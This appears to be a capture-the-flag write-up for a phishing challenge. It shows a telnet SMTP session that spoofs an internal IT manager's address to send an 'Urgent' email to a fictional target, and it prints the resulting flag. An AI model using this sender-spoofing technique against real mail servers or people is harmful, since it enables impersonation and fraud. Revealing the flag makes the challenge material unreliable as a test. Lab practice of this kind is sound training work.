

# Red Phish Blue Phish: Miscellaneous  

Author: Truman Kain (@truman.huntress), Adam Rice (@adam.huntress)  

You are to conduct a phishing excercise against our client, Pyrch Data.  

We've identified the Marketing Director, Sarah Williams (swilliams@pyrchdata.com), as a user susceptible to phishing.  

Are you able to successfully phish her? Remember your OSINT ;)  

```
NOTE: The port that becomes accessible upon challenge deployment is an SMTP server. Please use this for sending any phishing emails.  
You will not receive an email/human response as the mail infrastructure for this challenge is emulated.  
```  

Press the Start button on the top-right to begin this challenge.  

## SOLUTION:							    
Send a phishing email
> $ telnet challenge.ctf.games [port]  

> used telnet because netcat was broken  
```bash
Trying 35.193.148.143...
Connected to challenge.ctf.games.
Escape character is '^]'.
220 red-phish-blue-phish-20e3125859462627-7584c7974d-g697f Python SMTP 1.4.6

> HELO pyrchdata.com						## initiate mail process
250 red-phish-blue-phish-20e3125859462627-7584c7974d-g697f

> MAIL FROM: jdaveren@pyrchdata.com				## OSINT --> IT Security Manager
250 OK

> RCPT TO: swilliams@pyrchdata.com				## phishing target
250 OK

> DATA								## input data for phishing email
354 End data with <CR><LF>.<CR><LF>

> From: jdaveren@pyrchdata.com					## From: "convincing sender"
> To: swilliams@pyrchdata.com					## To: "phishing target"
> Subject: Urgent						##
> Optional filler text here.					##
> .								## send a period to submit email
								## this would break in netcat
250 OK. flag{54c6ec05ca19565754351b7fcf9c03b2}
```
